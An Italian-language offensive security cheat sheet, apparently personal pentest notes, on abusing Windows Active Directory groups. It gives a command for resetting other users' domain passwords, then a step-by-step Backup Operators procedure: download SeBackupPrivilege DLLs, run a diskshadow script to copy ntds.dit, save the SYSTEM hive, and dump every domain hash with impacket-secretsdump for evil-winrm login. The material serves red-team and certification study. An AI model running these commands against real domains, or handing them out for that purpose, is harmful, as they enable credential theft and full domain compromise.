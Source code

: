 ### **ACCOUNT OPERATORS**
Può gestire e creare utenti amministratore non amministratore, quindi anche cambiare le password di altri utenti
```powershell
net user <USER> NewPassword1234 /domain
```
### **BACKUP OPERATORS**
*DUMP NTDS.DIT*
Dobbiamo riuscire a fare il backup del file ntds.dit, un file contenente tutti gli hash e informazioni del dominio
Scarica i seguenti file
https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll
___
https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
Crea un file chiamato diskshadow.txt contenente queste righe
```vim
set context persistent nowriters #
set metadata c:\tmp\metadata.cab #
add volume c: alias myAlias #
create #
expose %myAlias% x: #
exec "cmd.exe" /c copy x:\windows\ntds\ntds.dit c:\tmp\ntds.dit #
delete shadows volume %myAlias% #
reset #
```
crea una cartella tmp sulla macchina
```powershell
mkdir c:\tmp
```
e carica tutti e tre i file
```powershell
upload SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilegeUtils.dll
upload diskshadow.txt
```
avvia diskshadow
```powershell
diskshadow.exe /s c:\tmp\diskshadow.txt
```
![[Pasted image 20230510125209.png]]
Importa i moduli caricati prima e usa il comando
```powershell
Import-Module
Set-SeBackupPrivilege
```
Copia il file SYSTEM e NTDS.dit e scaricateli
```powershell
reg save HKLM\SYSTEM c:\tmp\system
copy-filesebackupprivilege x:\windows\ntds\ntds.dit c:\tmp\ntds.dit -overwrite
```
Usa secretdump di IMPACKET per dumpare gli hash ed entra con evil-winrm
```bash
impacket-secretsdump -ntds ntds.dit -system system local
```
### **SERVER OPERATOR**
Puoi restartare i servizi e modificarne i PATH